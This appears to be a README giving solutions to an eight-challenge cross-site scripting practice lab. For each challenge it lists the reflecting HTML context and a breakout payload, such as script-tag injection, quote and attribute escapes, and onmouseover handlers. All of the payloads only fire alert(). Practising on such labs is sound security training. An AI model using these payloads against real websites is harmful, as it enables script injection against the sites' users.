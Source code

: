 # XSS-Practice-Lab


##Lab Link : http://leettime.net/xsslab1/chalg1.php

Author : Sheikh Rishad

<XSS Practice Lab/>


Challenge_1:

    <input type="text" name="name"></input>

payload :   

    <script>alert(1)</script>


Challenge_2:

<input type="text" name="name" value=hack></input>

payload :  ><script>alert(document.URL)</script>


Challenge_3:

<input type="text" name="name" value="hack"></input>

payload :  "><script>alert(document.URL)</script>


Challenge_4:

<input type="text" name="name" value='hack'></input>

payload :   '><script>alert(document.URL)</script>


Challenge_5:

<center><script>var search_str="hack";</script>

payload :   </script><script>alert(document.URL)</script>


Challenge_6:

<center><script>var search_str='hack';</script>

payload : </script><script>alert(document.URL)</script>


Challenge_7:

<input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   'onmouseover='alert(document.URL);


Challenge_8:

<input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   "onmouseover="alert(document.URL);
